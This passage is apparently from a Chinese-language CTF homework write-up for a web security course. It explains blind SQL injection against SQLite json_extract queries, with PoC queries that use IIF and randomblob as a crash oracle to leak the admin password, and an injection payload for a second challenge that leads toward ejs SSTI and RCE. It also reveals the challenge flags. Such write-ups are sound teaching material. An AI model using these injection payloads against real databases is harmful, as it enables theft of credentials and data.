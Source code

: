             { a: null, b: 'admin', c: 'FLAG{flag-1}' }
            ```
            第一個參數a為null是因為app.js中，我們的payload經過==JSON.stringify==，會在雙引號前加一個反斜線，這會導致query時，db不知道==$.admin.username\==是甚麼東西，只有單引號沒有這個問題，但如果第一個query data不加上雙引號就會導致閉合不全而導致結果異常(如下)
            ![圖片](https://hackmd.io/_uploads/Hy29LmYvp.png)
            所以我乾脆第一個參數就算了，重新利用後兩個參數要到username和password
    3. 有了這個可以幹嘛呢?我們可以下條件，當條件符合的時候做A，否則做B，而A和B是有一些差異，可能是時間長度或是網站是否crash為基準，這樣的話我們就可以知道下的條件是否正確，POC如下:
        * 看長度
            ```sql
            SELECT 
              json_extract(users, '$.admin.username') as a,
              json_extract(users, '$.admin.username') as b,
              json_extract(users, '$.admin.password') as c
            FROM db
            WHERE
                b = 'admin'
                AND IIF(length(c) = 10, (SELECT randomblob(1000000000 % 10) FROM sqlite_master WHERE 1 LIMIT 1), 1); -- # 
            ```
            在local測試時，FLAG1=`FLAG{test}`，也就是只有10個字，如果條件設定不符合時，就會query出東西，因為條件不符回傳1，如下圖
            ![圖片](https://hackmd.io/_uploads/SJxwu7Fwa.png)
            
            ---
            反之，就會query不出東西，也就是crash
            ![圖片](https://hackmd.io/_uploads/Hywt_QYvp.png)
        * 如果想要知道某一個字元可以substr這個function
            ```sql
            SELECT 
              json_extract(users, '$.admin.username') as a,
              json_extract(users, '$.admin.username') as b,
              json_extract(users, '$.admin.password') as c
            FROM db
            WHERE
                b = 'admin'
                AND IIF(substr(c, 1, 5) = 'FLAG{', (SELECT randomblob(1000000000 % 10) FROM sqlite_master WHERE 1 LIMIT 1), 1); -- # 
            ```
    4. 此時就可以開寫script去server端爆破FLAG1
## HW-Double Injection - FLAG2
Flag: `FLAG{ezzzzz_sqli2ssti}`
### 解題流程與思路
這一題想了很久，因為我沒有跟影片，想說應該都是跟去年差不多或是在臺科的網頁安全一樣，但其實相關的payload就是在講義上，花了一整天寫的我be like:
![](https://memeprod.ap-south-1.linodeobjects.com/user-template/7266c8627075418a7979b79481bf0f84.png)
基本上就是連接前一題的思緒，既然我們知道admin的password也就是FLAG1，那麼我們就可以用前一題的payload:
```!
admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- #
```
後面搭配簡單的XSS也是可以通的，原本想說可以利用XSS達到RCE，但就我之前和Kaibro的詢問，XSS應該沒有這麼powerful，所以我就往SSTI或command injection下手，後來經過@cs-otaku的提點才知道ejs有一個洞，也是上課有提到的SSTI控到RCE，當時看的文章是Huli大寫的，內容詳細說明了為甚麼會有這個洞以及該如何構造攻擊的payload，不過整體更複雜也算是需要客製化的題目才需要了解這麼多，這一題算是只要取得經典的payload就可以攻克，如果想要用動態看他跑得怎麼樣，可以用web storm跟，想知道整體的動態流程可以看[之前寫的文章](https://hackmd.io/@SBK6401/HkgkDNsPp)